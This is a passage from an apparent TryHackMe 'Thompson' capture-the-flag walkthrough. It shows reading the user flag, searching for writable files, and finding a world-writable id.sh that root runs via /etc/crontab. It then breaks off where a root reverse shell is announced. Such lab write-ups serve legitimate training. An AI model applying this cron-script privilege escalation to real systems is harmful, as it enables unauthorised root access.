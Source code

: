 ```sh                                                                                                                                   
drwxr-xr-x 10 root root  4096 Aug 14  2019 usr
drwxr-xr-x 11 root root  4096 Aug 14  2019 var
lrwxrwxrwx  1 root root    30 Aug 14  2019 vmlinuz -> boot/vmlinuz-4.4.0-159-generic
lrwxrwxrwx  1 root root    30 Aug 14  2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
```

Now you can get user.txt
```sh
cd /home/jack/
cat user.txt
```

---

## Privilege Escalation

```sh
find / -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
```

We Found `id.sh` is `Writable file` as root after check in /etc/crontab & `Executable file` as jack.  

```sh
ls -la /home/jack
```
`-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh`


```sh
cat /etc/crontab
```

![](/images/TryHackMe/Thompson/crontab.png)

---

Finally let get reverse shell as `root`
